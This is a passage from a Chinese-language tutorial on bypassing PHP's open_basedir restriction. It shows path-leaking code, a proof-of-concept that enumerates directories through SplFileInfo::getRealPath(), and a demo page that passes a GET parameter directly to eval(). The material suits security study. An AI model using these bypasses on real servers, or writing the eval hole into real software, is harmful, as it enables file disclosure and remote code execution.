 ```php
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    if (preg_match($regexp, $errstr, $matches)) {
        echo "{$matches[1]}<br />";
    }
}
?>
```

# 0x05 利用SplFileInfo::getRealPath()列举目录

**SplFileInfo**类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和realpath名字很像的方法叫getRealPath。

这个方法功能和realpath类似，都是获取绝对路径用的。我们在SplFileInfo的构造函数中传入文件相对路径，并且调用getRealPath即可获取文件的绝对路径。

这个方法有个特点：**完全没有考虑open_basedir**。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。 所以不像realpath需要考虑是否在open_basedir下面的条件

P神POC

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

# 0x06 利用chdir与ini_set

首先解释一下**ini_set** https://www.php.net/manual/zh/function.ini-set 这里先放一下demo network师傅的

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```
